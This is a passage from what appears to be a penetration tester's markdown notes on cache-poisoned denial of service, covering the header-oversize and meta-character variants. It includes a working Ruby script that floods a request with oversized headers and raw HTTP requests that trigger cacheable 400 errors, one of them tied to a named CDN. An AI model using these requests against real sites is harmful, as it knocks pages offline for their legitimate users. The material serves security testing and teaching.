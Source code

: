 			HTTP/2 414 Request-URI Too Long
			X-Cache: MISS
			```

			```
			GET /assets/anything HTTP/2
			Host: redacted.com

			HTTP/2 414 Request-URI Too Long
			X-Cache: HIT
			```
	- **CP-Dos**: 
		- **==HTTP Header Oversize (HHO)==**: HHO CPDoS attacks work in scenarios where a web application uses a cache that accepts a larger header size limit than the origin server. To attack such a web application, a malicious client sends a `HTTP GET` request including a header larger than the size supported by the origin server but smaller than the size supported by the cache. To do so, an attacker has two options. First, she crafts a request header with many malicious headers as shown in the following Ruby code snippet. The other option is to include one single header with an oversized key or value.
			```ruby
			require 'net/http'
			uri = URI("https://example.org/index.html")
			req = Net::HTTP::Get.new(uri)
			
			num = 200
			i = 0
			
			# Setting malicious and irrelevant headers fields for creating an oversized header
			until i > num  do
				req["X-Oversized-Header-#{i}"] = "Big-Value-0000000000000000000000000000000000"
				i +=1;
			end
			
			res = Net::HTTP.start(uri.hostname, uri.port, :use_ssl => uri.scheme == 'https') {|http|
				http.request(req)
			}
			```
			The cache forwards this request including all headers to the endpoint since the header size remains below the size limit of 20,480 bytes. The web server, however, blocks this request and returns an error page, as the request header exceeds its header size limit. This error page with status code `400 Bad Request` is now stored by the cache. All subsequent requests targeting the denied resource are now provided with an error page instead of the genuine content.
		- **==HTTP Meta Character (HMC)==**: This attack tries to bypass a cache with a request header containing a harmful meta character or invalid HTTP formation to trigger `400 Bad Request`, if cached then leads to DoS. Meta characters can be, e.g., control characters such as line break/carriage return (`\n`), line feed (`\r`) or bell (`\a`). For example; on **Akamai CDN**, the following character backward slash `\` causes `400 Bad request`, if cached then it leads to DoS:
			```
			GET /xx/xx/xx/xx?test HTTP/1.1  
			Host: redacted.com  
			\: 
	